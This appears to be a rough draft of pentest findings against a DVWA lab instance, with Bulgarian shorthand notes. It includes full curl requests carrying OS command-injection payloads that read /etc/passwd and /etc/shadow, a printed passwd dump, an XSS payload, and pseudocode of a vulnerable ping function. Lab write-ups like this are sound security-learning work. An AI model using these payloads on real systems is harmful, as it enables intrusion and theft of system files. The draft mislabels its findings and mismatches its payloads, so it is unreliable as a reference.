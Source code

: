 # Findings

**1. Server side request forgery.**
Severity: Medium
CVSS 3.1 score - 5.4
Scoring Vector: AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:L 
za devs e tozi skor nujen - vector

Description:
Server-Side Request Forgery (SSRF) is a type of vulnerability that occurs when an attacker can manipulate or forge requests from a vulnerable server. Essentially, it allows the attacker to send crafted requests from the server, bypassing traditional security measures.

It was discovered that the tested DVWA instance contains a SSRF vulnerability in the "Ping a device" functionality. The vulnerability allows an attacker to scan the internal infrastructure of the app by performinga a `ping` to an internal IPv4 and IPv6 addrs. It can be triggered by executing the following request - 
<!-- Intercept on on burp -->
```
curl "http://13.40.186.44:4280/vulnerabilities/exec/index.php" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" ^
  -H "Accept-Language: en-US,en;q=0.9" ^
  -H "Cache-Control: max-age=0" ^
  -H "Content-Type: application/x-www-form-urlencoded" ^
  -H "Cookie: security=impossible; PHPSESSID=648d1da998067207fd6e0469251ef323" ^
  -H "Origin: http://13.40.186.44:4280" ^
  -H "Proxy-Connection: keep-alive" ^
  -H "Referer: http://13.40.186.44:4280/vulnerabilities/exec/index.php" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36" ^
  --data-raw "ip=a.a&Submit=Submit&user_token=3ecb5335791264efa4abb4f572d523a8" ^
  --compressed ^
  --insecure
```

the results show as below:
Response
```
<pre>PING 0.0.0.0 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=127 time=0.019 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=127 time=0.037 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=127 time=0.036 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=127 time=0.036 ms

--- 0.0.0.0 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3091ms
rtt min/avg/max/mdev = 0.019/0.032/0.037/0.007 ms
</pre>
```

Recommendations: Limit pings to all internal 


***2. SSRF ***
Severity: Critial
CVSS 3.1 score - 9.9
Scoring Vector: 


Response -

Remote code execution chatgpt response za towa

It was discovered that XSADSD contins an rce vulnerability in the ping a device func that allwos attacer cli commands

```
curl "http://13.40.186.44:4280/vulnerabilities/exec/" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" ^
  -H "Accept-Language: en-US,en;q=0.9" ^
  -H "Cache-Control: max-age=0" ^
  -H "Content-Type: application/x-www-form-urlencoded" ^
  -H "Cookie: PHPSESSID=648d1da998067207fd6e0469251ef323; security=low" ^
  -H "Origin: http://13.40.186.44:4280" ^
  -H "Proxy-Connection: keep-alive" ^
  -H "Referer: http://13.40.186.44:4280/vulnerabilities/exec/" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36" ^
  --data-raw "ip=1.1.1.1^%^3B+ls+^%^2Fetc^%^2Fshadow&Submit=Submit" ^
  --compressed ^
  --insecure
  ```

  where the following payload is used:
  ```
  1.1.1.; cat /etc/passwd
  ```

highlight in word - 
```
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
64 bytes from 1.1.1.1: icmp_seq=1 ttl=41 time=2.51 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=41 time=2.54 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=41 time=2.55 ms
64 bytes from 1.1.1.1: icmp_seq=4 ttl=41 time=2.54 ms

--- 1.1.1.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 2.507/2.533/2.545/0.015 ms
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Reccomendtations: EMergency implement of client req payload filterin on the backedn where only ipv4 nad ipv6 addres are permitted
Notes - a key contat person 


NB!!!!
xapp i meta exploit
<!-- xss, server, template inj, command injection, file inclusion, unrestricted file report -->


Ako nqma filter taka tr izglejda payload-a
123"</div><script>alert(1)</script>



// Notes for the ingame

func exec_ip(HttpReq cReq) HttpResp {
    ip_str = cReq.formData.get('ip');
    is_valid_ip = regexp.verify(ip_str, REGEX_IP_FORMAT)

    <!-- if !is_valid_ip:
        return HttpResp(400, 'Invalid IP format') -->

    if ip_str is in INTERNAL_IPS:
        return HttpResp(400, 'Invalid IP Internal.')

    
    cmd_str = 'ping -c 1 ' + ip_str; // 1.1.1.1;
    stdout = exec(cmd_str)
    
    return HttpResp(200, stdout)

    // towa e ako sme umni - ima prowerki i nqma regex

    // direktno priema wsi4ko
}

ping -c {1.1.1.1 + ls -l}

server side request moje da e